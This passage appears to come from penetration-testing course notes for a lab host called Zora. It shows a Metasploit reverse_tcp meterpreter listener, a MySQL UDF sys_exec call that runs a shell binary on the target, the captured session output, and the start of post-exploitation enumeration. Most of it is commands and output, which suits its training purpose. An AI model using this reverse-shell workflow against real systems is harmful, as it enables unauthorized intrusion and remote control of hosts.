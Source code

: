 - Now that the shell is executable, let’s restart msfconsole on Kali to have a fresh environment.

```bash
msf5 exploit(multi/handler) > exit
kali@kali:~$ sudo msfconsole -q -x "use exploit/multi/handler;\
 set PAYLOAD linux/x86/meterpreter/reverse_tcp;\
 set LHOST 10.11.0.4;\
 set LPORT 443;\
 run"
...
[*] Started reverse TCP handler on 10.11.0.4:443 
```

- With our listener configured and running, we can execute the shell on Zora.

```bash
MariaDB [(none)]> select sys_exec('./shell.elf');
```

- Now we can go back to msfconsole and check if we captured the shell.
 
```bash
[*] Started reverse TCP handler on 10.11.0.4:443
[*] Sending stage (985320 bytes) to 10.11.1.250
[*] Meterpreter session 1 opened (10.11.0.4:443 -> 10.11.1.250:27904) at 18:00:32
meterpreter > shell
Process 3972 created.
Channel 1 created.
whoami
mysql
```

- Excellent, we have a working unprivileged shell on Zora!

1 Modify the original Python exploit and capture the reverse shell.

2 The original UDF exploit is advertised as a privilege escalation exploit. Why are we getting an unprivileged shell?

## Post Exploitation Enumeration
### Summary
- enumerating and find post exploitation things
---
---

- Now that we have a shell on Zora, let’s collect some general information about the host to see what we can learn. 

- Let’s start by checking the flavor of Linux that is running

```bash
meterpreter > shell
Process 4469 created.
Channel 2 created.
cat /etc/issue
Welcome to Alpine Linux 3.10
Kernel \r on an \m (\l)
```
